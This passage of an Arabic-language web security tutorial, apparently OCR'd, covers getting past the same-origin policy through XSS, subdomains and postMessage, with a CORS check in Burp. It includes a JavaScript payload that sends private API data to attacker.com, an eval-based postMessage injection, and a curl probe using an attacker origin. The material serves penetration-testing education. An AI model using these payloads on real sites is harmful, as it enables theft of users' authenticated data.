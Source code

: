 ##### **3. استغلال XSS**
- **الوصف**: XSS بتخليك تنفذ كود في سياق الموقع المستهدف، فبتتجاوز SOP تلقائياً.
- **اختبار عملي**:
  - ابحث عن ثغرة XSS (مثل حقل إدخال مش مفلتر).
  - أدخل كود JavaScript:
    ```javascript
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://example.com/api/private-data', true);
    xhr.withCredentials = true;
    xhr.onload = function() {
      fetch('https://attacker.com/steal?data=' + encodeURIComponent(xhr.responseText));
    };
    xhr.send();
    ```
  - الكود هيسرق البيانات ويبعتها لسيرفرك.

##### **4. استغلال Subdomains**
- **الوصف**: لو النطاق الفرعي (مثل `sub.example.com`) فيه ثغرة، ممكن تستغله للوصول للموقع الرئيسي.
- **اختبار عملي**:
  - ابحث عن ثغرة XSS أو إعدادات CORS ضعيفة في النطاق الفرعي.
  - استخدم الكود السابق لقراءة بيانات من `example.com`.

##### **5. استغلال PostMessage**
- **الوصف**: `window.postMessage` بيسمح بالتواصل بين النوافذ، ولو مش معموله إعدادات صح، ممكن تستغله.
- **اختبار عملي**:
  - ابحث عن كود JavaScript في الموقع بيستخدم `postMessage`:
    ```javascript
    window.addEventListener('message', function(event) {
      eval(event.data); // خطير!
    });
    ```
  - من موقعك، أرسل رسالة خبيثة:
    ```html
    <script>
      window.open('https://example.com').postMessage('fetch("/api/private-data").then(r=>r.text()).then(d=>alert(d))', '*');
    </script>
    ```
  - لو نجح، هتقدر تنفذ كود في سياق الموقع.

#### **استخدام أدوات**:
- **Burp Suite**:
  - استخدم Burp لفحص رؤوس CORS واختبار الطلبات:
    ```bash
    curl -H "Origin: https://attacker.com" https://example.com/api/data
    ```
  - لو الاستجابة رجعت `Access-Control-Allow-Origin: https://attacker.com`، يبقى فيه ثغرة.
- **OWASP ZAP**:
  - استخدم ZAP لفحص إعدادات CORS تلقائياً.
- **Browser DevTools**:
  - افتح DevTools (F12) وشوف الـ Network تبع الطلبات عشان تفهم إزاي الموقع بيرد.
